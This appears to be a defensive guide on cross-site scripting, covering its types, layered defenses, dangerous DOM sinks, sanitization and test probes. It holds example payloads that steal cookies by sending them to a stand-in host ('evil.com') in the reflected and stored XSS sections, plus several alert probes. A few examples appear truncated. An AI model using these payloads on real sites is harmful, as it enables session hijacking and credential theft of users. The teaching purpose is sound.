


XSS allows attackers to inject malicious scripts into pages viewed by other users. Exploited scripts run in the victim's browser with the trust level of the hosting site — they can steal cookies, capture keystrokes, redirect users, or make authenticated requests.

## The Three Types

### Reflected XSS

Malicious script is embedded in the URL. The server reflects it back in the response without sanitization. Requires the victim to click a crafted link.

```
URL: https://example.com/search?q=<script>document.location='https://evil.com/?c='+document.cookie</script>

Server responds: <p>Results for: <script>...</script></p>
Browser executes the script.
```

**Impact:** Session hijacking, credential theft, phishing. Scope is limited to users who click the crafted link.

### Stored XSS

Malicious payload is saved in the database and rendered to all users who view the affected page. No link required — just visiting the page triggers it.



```
Attacker posts a comment:
  Nice article! <script>fetch('https://evil.com/?c='+btoa(document.cookie))</script>

Every visitor to the page has their cookie exfiltrated.
```

**Impact:** Highest severity — affects all users at once, self-spreading ("XSS worm"), persistent.

### DOM-Based XSS

The vulnerability lives entirely in client-side JavaScript. The server response is safe, but JavaScript reads attacker-controlled input (URL hash, `document.referrer`, `postMessage`) and writes it to the DOM unsafely.

```javascript
// Vulnerable: reads from URL hash and writes to innerHTML
const name = location.hash.slice(1);
document.getElementById('greeting').innerHTML = 'Hello, ' + name;

// Attack URL:
// https://example.com/#
```

**Impact:** Same as reflected XSS but harder to detect — server logs show only the safe URL, not the hash.

---

## Defense in Depth

No single defense is sufficient. Combine all layers.



### 1. Output Encoding (Primary Defense)

Encode all untrusted data before inserting it into an HTML context. Different contexts need different encoding:

| Context | Encoding | Example |
|---|---|---|
| HTML body | HTML entity encode | `<` → `&lt;` |
| HTML attribute | Attribute encode | `"` → `&quot;` |
| JavaScript string | JS string encode | `\` → `\\` |
| URL parameter | URL encode | space → `%20` |
| CSS value | CSS encode | rarely used |

```javascript
// Node.js — use a library, never hand-roll encoding
import he from 'he';
const safe = he.encode(userInput);

// React, Vue, Svelte — frameworks auto-encode in templates
// ✓ Safe:  <p>{userInput}</p>
// ✗ Unsafe: <p dangerouslySetInnerHTML={{ __html: userInput }} />
```

### 2. Content Security Policy (CSP)

CSP is a response header that tells the browser which scripts are allowed to execute. A strict CSP eliminates most XSS impact even if a payload is injected.

```
# Strict CSP using nonces (recommended)
Content-Security-Policy:
  default-src 'self';
  script-src 'nonce-{random}' 'strict-dynamic';
  object-src 'none';
  base-uri 'none';
```

```html
<!-- Every inline script needs the nonce attribute -->
<script nonce="abc123xyz">
  // This executes; injected scripts without nonce are blocked
</script>
```

- Generate a fresh nonce per request (CSPRNG, 128+ bits, base64 encoded)
- `strict-dynamic` propagates nonce trust to dynamically loaded scripts
- `'unsafe-inline'` and `'unsafe-eval'` defeat the purpose — avoid both
- Use [CSP Evaluator](https://csp-evaluator.withgoogle.com) to validate your policy

### 3. HttpOnly Cookies

If session tokens are in `HttpOnly` cookies, JavaScript cannot read them — XSS can still make authenticated requests but cannot exfiltrate the token itself.

```
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax
```

### 4. Input Validation

Reject input that doesn't match expected patterns at the boundary. This is a supplement, not a replacement for output encoding.

```javascript
// Reject names containing HTML-special characters
if (/[<>"'&]/.test(req.body.name)) {
  return res.status(400).json({ error: 'Invalid characters in name' });
}
```

### 5. Trusted Types (Browser API)

Trusted Types is a browser API that prevents DOM XSS by requiring all DOM sink writes to go through a typed object created by a policy. Enforced via CSP header.

```
Content-Security-Policy: require-trusted-types-for 'script'
```

```javascript
const policy = trustedTypes.createPolicy('default', {
  createHTML: (input) => DOMPurify.sanitize(input),  // only sanitized HTML allowed
});

element.innerHTML = policy.createHTML(userInput);  // ✓ safe
element.innerHTML = userInput;                      // ✗ throws TypeError
```

---

## Dangerous DOM Sinks

These JavaScript properties and APIs directly execute or render HTML. Any untrusted data assigned to them without sanitization is an XSS vulnerability:

```javascript
// HTML sinks
element.innerHTML = userInput;          // ✗
element.outerHTML = userInput;          // ✗
document.write(userInput);              // ✗

// URL-based sinks
location.href = userInput;              // ✗ (allows javascript: URLs)
element.src = userInput;               // ✗

// Execution sinks
eval(userInput);                        // ✗
setTimeout(userInput, 0);              // ✗
new Function(userInput)();              // ✗

// Safe alternatives
element.textContent = userInput;        // ✓ (text only, no HTML parsed)
element.setAttribute('data-x', val);   // ✓ (attribute, not code)
```

---

## When You Need to Render HTML

If you must render user-controlled HTML (e.g., rich text editor output), use a well-maintained sanitization library. Never write your own allowlist parser.

```javascript
import DOMPurify from 'dompurify';

// Only allow safe formatting tags; strip everything else
const clean = DOMPurify.sanitize(userHtml, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'ul', 'li'],
  ALLOWED_ATTR: ['href'],
});
element.innerHTML = clean;
```

---

## Testing for XSS

Basic probes to include in your test suite or manual testing:

```
<script>alert(1)</script>
"><script>alert(1)</script>
'>
javascript:alert(1)
<svg onload=alert(1)>
```

Use a browser's developer tools to check if a probe appears in the DOM — the browser's DevTools XSS auditor may not catch all variants. Automated scanners: Burp Suite, OWASP ZAP, Semgrep with security rules.
